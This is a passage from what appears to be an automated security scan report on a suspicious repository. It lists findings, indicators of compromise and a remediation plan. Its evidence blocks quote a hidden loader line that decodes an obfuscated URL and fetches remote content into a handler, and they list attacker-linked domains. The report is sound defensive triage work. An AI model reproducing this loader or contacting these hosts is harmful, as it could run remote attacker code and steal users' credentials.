**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Encoded strings and hex escapes often hide second-stage payloads.

**Potential impact**
- Concealed C2 and delayed detection.

**Evidence**

```text
1097: 325: ```js
1098: 326: // BAD
1099: 327: // axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
1100: 328: 
1101: 329: // GOOD
```

**Remediation**
- Decode and review encoded data; remove untrusted payload paths.

---

## 48) High - Obfuscation / Encoded Payload Indicator

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Encoded strings and hex escapes often hide second-stage payloads.

**Potential impact**
- Concealed C2 and delayed detection.

**Evidence**

```text
1171: 5: const {secretKey, publicKey} = require("../config/config");
1172: 6: const { errorHandler } = require("../middleware/errorHandler");
1173: 7: axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
1174: 8: 
1175: 9: module.exports = {
```

**Remediation**
- Decode and review encoded data; remove untrusted payload paths.

---

## 49) High - Obfuscation / Encoded Payload Indicator

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Encoded strings and hex escapes often hide second-stage payloads.

**Potential impact**
- Concealed C2 and delayed detection.

**Evidence**

```text
88: ```js
89: // server/controllers/auth.controller.js
90: axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
91: ```
92:
```

**Remediation**
- Decode and review encoded data; remove untrusted payload paths.

---

## 50) High - Obfuscation / Encoded Payload Indicator

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Encoded strings and hex escapes often hide second-stage payloads.

**Potential impact**
- Concealed C2 and delayed detection.

**Evidence**

```text
325: ```js
326: // BAD
327: // axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
328: 
329: // GOOD
```

**Remediation**
- Decode and review encoded data; remove untrusted payload paths.

---

## 51) High - Obfuscation / Encoded Payload Indicator

**Affected file**: `server/controllers/auth.controller.js`

**Why this is suspicious**
- Encoded strings and hex escapes often hide second-stage payloads.

**Potential impact**
- Concealed C2 and delayed detection.

**Evidence**

```js
5: const {secretKey, publicKey} = require("../config/config");
6: const { errorHandler } = require("../middleware/errorHandler");
7: axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
8: 
9: module.exports = {
```

**Remediation**
- Decode and review encoded data; remove untrusted payload paths.

---

## 52) Medium - Anomalous File Signature (score=1.83)

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Statistical outlier across entropy/obfuscation/exec-token metrics.

**Potential impact**
- Likely hidden payload or packed script behavior.

**Evidence**

```text
entropy=5.16, long_line_ratio=0.01, hex_escapes=0, suspicious_tokens=52, non_alnum_ratio=0.35
```

**Remediation**
- Manually deobfuscate and isolate before execution.

---

## Indicators of Compromise (IOCs)

### Network IOCs
- `http://localhost:3000`
- `http://localhost:5000`
- `http://www.w3.org/2000/svg`
- `https://api.npoint.io/325bab1c02db45af7f62`
- `https://bugs.chromium.org/p/chromium/issues/detail?id=453190`
- `https://discord.gg/GoldenProp`
- `https://docs.pwabuilder.com/#/home/sw-intro`
- `https://docs.pwabuilder.com/#/studio/existing-app?id=add-a-service-worker`
- `https://gist.github.com/surma/eb441223daaedf880801ad80006389f1`
- `https://github.com/pwa-builder/PWABuilder/blob/main/docs/sw.js`
- `https://images.unsplash.com/photo-1451187580459-43490279c0fa?w=800&q=80`
- `https://images.unsplash.com/photo-1460472178825-e5240623afd5?w=800&q=80`
- `https://images.unsplash.com/photo-1472099645785-5658abf4ff4e?w=400&q=80`
- `https://images.unsplash.com/photo-1486406146926-c627a92ad1ab?w=800&q=80`
- `https://images.unsplash.com/photo-1507003211169-0a1dd7228f2d?w=400&q=80`
- `https://images.unsplash.com/photo-1507679799987-c73779587ccf?w=800&q=80`
- `https://images.unsplash.com/photo-1512917774080-9991f1c4c750?w=800&q=80`
- `https://images.unsplash.com/photo-1516245834210-c4c142787335?w=1200&q=80`
- `https://images.unsplash.com/photo-1516245834210-c4c142787335?w=800&q=80`
- `https://images.unsplash.com/photo-1551288049-bebda4e38f71?w=800&q=80`
- `https://images.unsplash.com/photo-1551434678-e076c223a692?w=800&q=80`
- `https://images.unsplash.com/photo-1600596542815-ffad4c1539a9?w=1600&q=80`
- `https://images.unsplash.com/photo-1600607687939-ce8a6c25118c?w=800&q=80`
- `https://images.unsplash.com/photo-1613490493576-7fde63acd811?w=800&q=80`
- `https://microsoft.github.io/win-student-devs/#/30DaysOfPWA/advanced-capabilities/06`
- `https://microsoft.github.io/win-student-devs/#/30DaysOfPWA/advanced-capabilities/07?id=application-badges`
- `https://microsoft.github.io/win-student-devs/#/30DaysOfPWA/advanced-capabilities/07?id=push-notifications-on-the-web`
- `https://vscode-toolkit-settings.vercel.app/settings/linux?flag=302`
- `https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`
- `https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`
- `https://web.dev/periodic-background-sync/`
- `https://www.mnot.net/blog/2007/12/12/stale`

### Behavioral IOCs
- Dynamic execution primitives (`new Function`, `eval`, shell execution APIs).
- Auto-run workflow hooks (`runOn: folderOpen`) and unattended execution paths.
- Encoded payload indicators (base64 blobs, hex-escaped sequences, high-entropy scripts).

## ML Feature Snapshot

| Feature | Value |
|---|---:|
| critical_count | 45.0000 |
| finding_density | 0.9286 |
| hex_escape_total | 0.0000 |
| high_count | 6.0000 |
| max_file_entropy | 5.4619 |
| obfuscation_signals | 7.0000 |
| persistence_signals | 4.0000 |
| rce_signals | 41.0000 |
| suspicious_domains | 4.0000 |

## Remediation Plan

### Immediate Containment (0-2 hours)
1. Quarantine suspicious files and disable IDE auto-task execution.
2. Remove dynamic code execution and remote bootstrap logic.
3. Block/monitor IOC domains and rotate exposed credentials.

### Eradication (same day)
1. Replace hardcoded secrets with managed environment secrets.
2. Add CI checks for dangerous primitives and auto-exec behaviors.
3. Validate all dependencies and remove unnecessary packages.

### Recovery & Hardening (1-3 days)
1. Re-image impacted hosts when code execution is confirmed.
2. Add SAST + secret scanning + dependency scanning in CI/CD.
3. Enforce secure coding policy for external assessment repositories.



## Confidence & Limitations

- Confidence is highest for static anti-patterns and known malware staging behaviors.
- Report does not execute payloads; dynamic sandboxing may reveal additional behavior.
- ML outputs are heuristic and intended for triage prioritization.

## Final Assessment

**Likely malicious** based on combined static findings and ML/anomaly scoring.
